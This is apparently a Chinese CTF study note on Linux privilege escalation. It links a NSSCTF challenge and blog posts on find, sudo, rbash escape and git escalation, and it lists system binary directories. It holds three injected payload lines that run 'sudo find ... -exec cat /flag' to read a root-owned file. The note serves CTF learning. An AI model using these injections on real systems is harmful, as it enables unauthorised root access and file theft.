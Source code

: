 提权

[TOC]

先贴道题：[[HZNUCTF 2023 final\]ezgo | NSSCTF](https://www.nssctf.cn/problem/3605)

find提权：

[find基础命令与提权教程_find提权-CSDN博客](https://blog.csdn.net/weixin_44912169/article/details/105845909)

[find 命令提权 - 内向是一种性格 - 博客园 (cnblogs.com)](https://www.cnblogs.com/aaak/p/15718561.html)

[su、sudo、sudo su、sudo -i sudo -l的用法和区别-CSDN博客](https://blog.csdn.net/mutou990/article/details/107724302)

```
/bin 存放所有用户皆可用的系统程序，系统启动或者系统修复时可用（在没有挂载 /usr 目录时就可以使用）
/sbin 存放超级用户才能使用的系统程序
/usr/bin 存放所有用户都可用的应用程序
/usr/sbin 存放超级用户才能使用的应用程序
/usr/local/bin 存放所有用户都可用的与本地机器无关的程序
/usr/local/sbin 存放超级用户才能使用的与本地机器无关的程序

```

```
shit=/usr/bin/sudo find /flag -exec cat /flag \;
shit=/usr/bin/sudo find /usr/bin/sudo -exec cat /flag \;
shit=/usr/bin/sudo find /usr/bin/find -exec cat /flag \;

# find  (一个路径或文件，必须存在)  -exec  执行命令 \;（\; 是-exec 参数的结尾标志）

```

# Linux

#### rbash逃逸

https://blog.csdn.net/qq_43168364/article/details/111830233

#### git提权

https://www.freebuf.com/articles/web/272617.html

# Windows

